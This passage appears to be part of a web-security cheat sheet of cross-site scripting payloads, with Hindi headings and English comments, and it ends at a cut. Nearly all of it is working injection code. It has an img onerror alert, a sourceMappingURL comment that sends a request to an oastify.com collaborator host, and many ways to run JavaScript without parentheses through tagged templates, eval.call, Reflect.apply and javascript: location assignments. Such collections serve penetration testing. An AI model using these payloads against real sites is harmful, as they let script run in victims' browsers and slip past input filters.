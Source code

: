```javascript

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```
**एक टिप्पणी के अंदर जावास्क्रिप्ट**
```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
**बिना कोष्ठक के JavaScript**
````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

// To pass several arguments you can use
function btt(){
console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

//It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

// .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
// This happened in the previous example
// Change "this" value of call to "1,"
// match anything with regex /./
// call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

// Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
// Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
// These operations are called when the object is used as a primitive
````